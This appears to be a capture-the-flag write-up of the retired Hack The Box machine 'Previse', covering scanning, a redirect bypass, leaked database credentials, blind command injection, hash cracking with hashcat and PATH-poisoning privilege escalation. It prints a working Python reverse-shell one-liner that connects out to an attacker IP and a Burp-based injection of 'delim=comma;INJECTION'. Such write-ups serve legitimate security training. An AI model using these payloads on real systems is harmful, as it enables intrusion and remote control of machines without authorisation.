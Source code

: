 ```yaml
---
title: "Previse Hackthebox writeup"
header:
  teaser: "/assets/images/Previse/start.png"
tags: ["Hackthebox", "RCE", "path poisoning"]
categories:
  - Linux Machines
ribbon: blue
date: 2022-01-27T00:45:08+02:00
toc: true
draft: false
---
```


In this Writeup you will find walkthrough of the retired machine previse From Hackthebox

<!--more-->

![image](/assets/images/Previse/start.png)

> export IP=10.10.11.104

# scanning :

## intial

```bash
sudo nmap -sV -vv $IP -oN nmap/intial
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
```

visiting the web page :

![image](/assets/images/Previse/20211002032239.png)

tried some sqli but not worked

## directory brute-force :

```bash
$ gobuster dir -u http://10.10.11.104/ -w /usr/share/dirb/wordlists/big.txt -x php,txt
```

found :

```bash
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/download.php         (Status: 302) [Size: 0] [--> login.php]
/files.php            (Status: 302) [Size: 4914] [--> login.php]
```

you can use curl without enabling redirect and will notice the same thing immediately

```bash
curl http://10.10.11.104/accounts.php -vvv
```

But i opened up my burpsuite and observe the requests and response for /accounts.php

- there is a redirect happen to /login.php again .
- i do intercept the redirect and found :

![image](/assets/images/Previse/20211002033401.png)

hence i want to view and interact with this page , i changed the
HTTP 302 redirect to HTTP 200 OK

![image](/assets/images/Previse/20211002033552.png)

forward it :

![image](/assets/images/Previse/20211002033625.png)

i made an account and then redirected me to /login.php again so i logged in successfully

![image](/assets/images/Previse/20211002034057.png)

navigating through the tabs found :

![image](/assets/images/Previse/20211002034221.png)

so i downloaded the backup and found :

![image](/assets/images/Previse/20211002034310.png)

in config.php :

```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

after some navigating in the files :
in /logs.php

![image](/assets/images/Previse/20211002034826.png)

- so we can see the exec function which most likely indicating RCE , and python is executing on a script and seems the script saves output in out.log .

- understanding the logic at my local machine :

![image](/assets/images/Previse/20211002041124.png)

- so we can inject any command like : `delim=comma;INJECTION` However it won't be printed in logs.out so it is a Blind RCE .
- we can get a shell immediatley

[+] from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.120",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

![image](/assets/images/Previse/20211002041602.png)

![image](/assets/images/Previse/20211002041508.png)

```python
# stablizie the shell
$ python -c "import pty;pty.spawn('/bin/bash')"
```

hence we are in the machine now so we can access local host and view data base :D

```bash
mysql -h localhost -u root -p previse
```

```sql

mysql> SELECT table_name FROM information_schema.tables;
```

![image](/assets/images/Previse/20211002042525.png)

- so we need m4lware password only `i guess :3` let's get it and try crack the hash from here:
  https://gist.github.com/dwallraff/6a50b5d2649afeb1803757560c176401

- we can see it is a md5crypt hash

```bash
$ hashcat -m 500 -a 0 hashed_m4lware /usr/share/wordlists/rockyou.txt
# 500 : md5crypt
# 0   : straight attack mode
# output :
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```

![image](/assets/images/Previse/20211002043827.png)

## privilege escalation

![image](/assets/images/Previse/20211002043918.png)

so let's read the script :

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz

```

- so it simply makes a backup for the logs with gzip .
- we should focus on how to manipulate gzip .

### PATH poisoning

- we can see here :
  https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

we can use that so when we execute this as root "with sudo" gzip will refer to the /tmp in the path

![image](/assets/images/Previse/20211002044848.png)

i don't know why but the shell doesn't return any result although i gained the root access so i make a reverse shell and it worked perfectly

![image](/assets/images/Previse/20211002045036.png)

# Pwned
